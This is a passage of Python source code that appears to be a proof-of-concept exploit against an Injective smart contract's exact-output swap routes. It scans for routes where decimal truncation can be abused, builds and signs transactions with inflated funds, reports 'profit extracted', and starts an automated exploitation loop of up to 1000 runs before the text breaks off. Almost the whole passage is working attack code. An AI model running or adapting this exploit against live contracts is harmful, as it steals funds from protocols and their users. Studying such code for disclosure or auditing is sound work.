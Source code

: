 ```python
        # Query all available routes
        routes = self.query_routes()
        vulnerable = []
        
        for route in routes:
            first_market = self.query_market(route['steps'][0])
            if first_market['quote_denom'] == route['source_denom']:
                vulnerable.append(route)
                print(f"[+] Found vulnerable route: {route['source_denom']} -> {route['target_denom']}")
        
        return vulnerable
    
    def calculate_optimal_amount(self, route):
        """Calculate swap amount for maximum decimal truncation"""
        # Aim for amounts that result in maximum decimal part
        # e.g., 990.99 -> truncates to 990, losing 0.99
        return {
            'target_output': 100.5,  # Results in estimation with decimals
            'expected_estimation': 990.7,
            'expected_required': 991,  # 990 + 1
            'profit': 1.7  # Decimal loss + 1
        }
    
    def execute_exploit(self, route, amount):
        """Execute a single exploit transaction"""
        msg = {
            "swap_exact_output": {
                "target_denom": route['target_denom'],
                "target_output_quantity": str(amount['target_output'])
            }
        }
        
        # Provide inflated input
        funds = [{"denom": route['source_denom'], "amount": "1000000000"}]  # 1000 USDT
        
        tx = Transaction()
        tx.add_message(
            msg_type="/injective.wasmx.v1.MsgExecuteContract",
            sender=self.wallet.address(),
            contract=self.contract,
            msg=json.dumps(msg),
            funds=funds
        )
        
        # Sign and broadcast
        tx.sign(self.wallet.signer())
        result = self.client.broadcast(tx)
        
        print(f"[*] Transaction: {result.tx_hash}")
        print(f"[+] Profit extracted: ~{amount['profit']} {route['source_denom']}")
        
        return result
    
    def run_exploitation_campaign(self, max_iterations=1000):
        """Run automated exploitation"""
        print("[*] Starting exploitation campaign...")
        
        vulnerable_routes = self.find_vulnerable_routes()
        if not vulnerable_routes:
            print("[-] No vulnerable routes found")
            return
        
```